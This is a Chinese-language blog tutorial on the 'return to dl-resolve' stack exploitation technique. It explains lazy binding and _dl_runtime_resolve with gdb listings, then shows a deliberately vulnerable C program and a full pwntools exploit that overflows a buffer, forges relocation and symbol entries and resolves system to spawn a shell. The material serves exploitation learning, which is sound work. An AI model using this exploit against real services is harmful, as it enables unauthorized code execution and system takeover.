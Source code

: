 ```yaml
---
title: return to dl-resolve
date: 2016-10-25 02:09:07
tags:
- stack
- exploit
- return to dl-resolve
categories:
- stack_exploit
---
```


OK，早就想把return to dl-resolve这种方法记录一下，可是以前觉得这种方法太麻烦，不想搞，就看了下原理，而且具体构造细节有几个地方没懂，所以就耽搁了。但是觉得多掌握一种方法还是有利无害吗，所以今天得空记录一下。

## 利用原理

其实return to dl-resolve利用的就是函数的lazy binding。在此过程中会调用_dl_runtime_roslve函数，然后这个函数会调用fixup()函数来获得函数的地址，并把地址写入相应reloc的r_offset字段(GOT), 然后执行解析的函数。
注：dl-resolve函数其实跟fixup函数实现的是相同的功能，只是在不同glibc中名字不同而已。
<!-- more -->
具体来说第一次调用一个函数的过程是这样的：
1. 跳转到对应的plt项，plt表项的具体内容如下：
```shell
(gdb) x/4i 0x80483f0
   0x80483f0 <write@plt>:	    jmp    *0x804a020
   0x80483f6 <write@plt+6>:	    push   $0x28
   0x80483fb <write@plt+11>:	    jmp    0x8048390
```
2. 然后跳转都相应got项。当然第一次调用时其got表项存放的是相应plt表项的第二条指令的地址。其实又回到了plt表项。
3. 再把相应偏移量push后，然后跳转到PLT[0]，就是上面的第三条指令。第一次push GOT[1]，一个指向link_map结构体的指针，然后跳转到GOT[2]里面存放的地址,即_dl_runtime_resolve函数的地址。然后此函数会把解析得到的函数地址写入reloc项的r_offset字段。最后在_dl_runtime_resolve返回后跳到了相应的函数体执行。PLT[0]存放的内容如下：
```shell
(gdb) x/2i 0x8048390
   0x8048390:	pushl  0x804a004
   0x8048396:	jmp    *0x804a008
```

其实就是函数参数先压栈，然后执行了_dl_runtime_resolve(*link_map, rel_offset)函数。

具体_dl_runtime_resolve函数的具体执行过程如下：
1. 计算函数的reloc entry。
	Elf32_Rel * reloc = JMPREL + reloc_offset;
2. 计算函数的symtab entry。
	Elf32_Sym * sym = &SYMTAB[ ELF32_R_SYM (reloc->r_info) ];
3. security check
	assert (ELF32_R_TYPE(reloc->r_info) == R_386_JMP_SLOT);
4. 计算函数名称在dynstr表中的偏移。
	name = STRTAB + sym->st_name;
5. 函数地址写入相应的项，堆栈调整，执行函数。

由此，攻击思路就是提供一个很大的数rel_offset给_dl_runtime_resolve，使得找到rel_entry落在我们可控制的区域内。同理，构造伪条目，使得所对应的符号信息、符号的名称，均落在我们可控的区域内，那么就可以解析我们所需的函数并调用了。

## 利用举例

我还是用一个[例子](https://github.com/wolfzhang888/pwn_learning/blob/master/stack_skills/dl-resolve)考说明一下吧。以下是相应源码。
```c
int vulnerable_function()
{
  char buf[0x88];

  return read(0, &buf, 0x100u);
}

int main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```
以下是exploit：
```python
from pwn import *

debug = 0
if debug:
    context.log_level = 'debug'
    p = process('./dl-resolve')
else:
    p = remote('192.168.175.156', 10000)

elf = ELF('./dl-resolve')
write_plt = elf.plt['write']
read_plt = elf.plt['read']
write_got = elf.got['write']

vuln = 0x0804844b
bss_addr = 0x804a024
base_stage = bss_addr + 0x400
pop3_ret = 0x8048509
pop_ebp_ret = 0x804850b
leave_ret = 0x80483b8
plt_resolve = 0x8048300

payload1  = 'a' * 0x88 + 'b' * 0x4 + p32(read_plt) + p32(pop3_ret)
payload1 += p32(0) + p32(base_stage) +p32(100) + p32(pop_ebp_ret)
payload1 += p32(base_stage) + p32(leave_ret) 
p.sendline(payload1)

rel_plt = 0x80482b0
dynsym_addr = 0x80481cc
dynstr_addr = 0x804822c
index_offset = (base_stage + 28) - rel_plt  #seems like reloc no need to be align, (I've tried many number)
fake_sym = base_stage + 36		    #in the place of '28' can be any number(>=20)
align = 0x10 - ((fake_sym - dynsym_addr) % 0x10)   #but sym's necessary
fake_sym = fake_sym + align
index_dynsym = (fake_sym - dynsym_addr) / 0x10
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym + 16) - dynstr_addr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'c' * 4 + p32(plt_resolve) + p32(index_offset) + p32(0xdeadbeef)
payload2 += p32(base_stage + 80) + 'e' * 8 + fake_reloc + 'f' *align
payload2 += fake_sym + 'system\x00'
payload2 = payload2.ljust(80, 'a')
payload2 += '/bin/sh\x00'
payload2 = payload2.ljust(100, 'a')

p.send(payload2)

p.interactive()
```
payload1是为了把伪造条目写到相应区域并把栈调整到该区域，因为执行system函数所需的参数在此区域。payload2主要是为了让_dl_runtime_resolve函数解析system函数并执行。
其实关键还得看_dl_runtime_resolve函数执行时栈的情况, _dl_runtime_resolve的相应汇编如下：
```shell
(gdb) x/11i _dl_runtime_resolve 
   0xb7ff1150 <_dl_runtime_resolve>:    push   %eax
   0xb7ff1151 <_dl_runtime_resolve+1>:  push   %ecx
   0xb7ff1152 <_dl_runtime_resolve+2>:  push   %edx
   0xb7ff1153 <_dl_runtime_resolve+3>:  mov    0x10(%esp),%edx
   0xb7ff1157 <_dl_runtime_resolve+7>:  mov    0xc(%esp),%eax
   0xb7ff115b <_dl_runtime_resolve+11>: call   0xb7feab30 <_dl_fixup>
   0xb7ff1160 <_dl_runtime_resolve+16>: pop    %edx
   0xb7ff1161 <_dl_runtime_resolve+17>: mov    (%esp),%ecx
   0xb7ff1164 <_dl_runtime_resolve+20>: mov    %eax,(%esp)
   0xb7ff1167 <_dl_runtime_resolve+23>: mov    0x4(%esp),%eax
   0xb7ff116b <_dl_runtime_resolve+27>: ret    $0xc
```
在执行_dl_runtime_resolve + 27 时时栈的情况应该是下面这样的：
<img src="http://of38fq57s.bkt.clouddn.com/_dl_runtime_stack.PNG">
```c
|fun's addr|
|eax.......|
|link_map..|
|offset....|
|ret.......|
|arg.......|
|arg.......|
|..........|
```
所以当ret 0xc时就去执行了相应的函数了。以上会执行system函数，最终获得shell。
<img src="http://of38fq57s.bkt.clouddn.com/return2-dl-resolve.PNG">

64位比32位有了些许变化。相关的结构体大小不同，函数参数也变成由寄存器传递而非栈传递。需要注意的是64位还需要泄露link_map的值，目的是将link_map+0x1c8处设为NULL，这样才能绕过相关检测。64位就不举例了，原理都差不多。

## 参考链接

[通过ELF动态装载构造ROP链](http://wooyun.bystudent.com/static/drops/binary-14360.html)

